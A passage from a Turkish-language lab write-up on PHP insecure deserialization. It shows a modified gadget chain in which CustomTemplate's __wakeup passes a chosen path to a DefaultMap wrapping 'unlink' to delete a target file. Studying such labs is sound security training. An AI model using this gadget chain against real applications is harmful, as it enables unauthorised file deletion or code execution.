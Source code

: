 ![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%2018.png)

Bizden istenen şey `morale.txt` dosyasının silinmesi olduğu için id değeri yerine bu dosyanın yolunu veriyoruz, ayrıca system ifadesi yerine de unlink kullanmalıyız. Güncel kodumuz aşağıdaki gibidir;

```php
class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new DefaultMap("unlink");//new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type; // $DefaultMap->id
    }
}

```